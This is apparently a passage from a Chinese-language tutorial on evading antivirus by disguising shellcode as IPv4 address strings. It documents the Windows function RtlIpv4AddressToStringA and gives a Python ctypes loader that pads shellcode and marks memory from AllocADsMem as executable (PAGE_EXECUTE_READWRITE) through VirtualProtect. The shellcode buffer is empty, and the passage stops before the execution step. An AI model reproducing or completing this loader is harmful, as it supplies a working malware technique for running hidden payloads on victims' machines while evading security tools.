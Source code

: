 ![](img/9.png)

- `RtlIpv4AddressToStringA`：`RtlIpv4AddressToString`函数将`IPv4`地址转换为`Internet`标准点十进制格式的字符串。

```c++
NTSYSAPI PWSTR RtlIpv4AddressToStringA(
  [in]  const in_addr *Addr,
  [out] PWSTR         S
);
```

![](img/10.png)

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
IPv4内存加载
"""
import ctypes

shellcode = b''
if len(shellcode) % 4 != 0:
    null_byte = b'\x00' * (4 - len(shellcode) % 4)
    shellcode += null_byte

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc_1 = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode) // 4 * 16))
ptr_realloc_1 = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc_1, len(shellcode) // 4 * 16, len(shellcode) // 4 * 16)
ctypes.windll.kernel32.VirtualProtect(ptr_realloc_1, ctypes.c_int(len(shellcode) // 4 * 16), 0x40, ctypes.byref(ctypes.c_long(1)))
```